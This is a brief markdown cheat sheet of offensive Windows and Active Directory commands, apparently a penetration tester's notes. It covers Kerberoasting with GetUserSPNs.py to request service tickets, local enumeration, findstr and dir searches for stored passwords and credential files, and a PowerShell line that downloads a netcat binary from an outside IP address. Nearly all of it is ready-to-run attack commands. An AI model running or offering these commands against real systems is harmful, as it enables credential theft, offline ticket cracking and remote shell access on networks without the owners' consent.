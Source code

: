 
# Kerberoasting

Get SPN's (servicies) from DC

> get all TGS for servicies
```
GetUserSPNs.py $domain/$user:#password -dc-ip $ip_addres_of_dc -request
```



# Enumeration
## Basics

```
whoami 
systeminfo 
net users 
net localgroups
net user user1 - more info about user
wmic qfe get Caption,Description,HotFixID,InstalledOn - gather how well system is patched
```

## Look for open credentials

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

# Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

## File download
```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```
